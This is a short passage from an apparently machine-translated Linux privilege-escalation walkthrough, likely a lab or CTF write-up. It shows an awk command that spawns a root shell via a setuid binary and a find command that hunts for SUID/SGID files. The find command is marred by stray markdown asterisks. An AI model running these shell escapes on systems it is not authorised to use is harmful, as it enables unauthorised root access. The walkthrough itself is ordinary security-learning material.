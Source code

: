输出

**根使用 awk**

```
$ awk 'BEGIN{system("/bin/sh")}'
```

![](img/791b71805d39de11874ae9f91cc2f73f.png)

男人 awk

![](img/da27c991684522872910d60b75de2fa5.png)

使用 awk 的所有者用户

**/bin/bash** 没有给我们 root，这是因为 bash 有权限提升保护。但是/bin/sh 里没有这个东西。

让我们尝试一种不同的权限提升方法，在互联网上搜索时，我找到了这篇文章。

[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知，没有

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 

**Root 使用 python**

```
find / -perm -g**=**s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld **{}** \; 2>/dev/null
```

![](img/601d9cd810072c8d5651e11718cc683b.png)
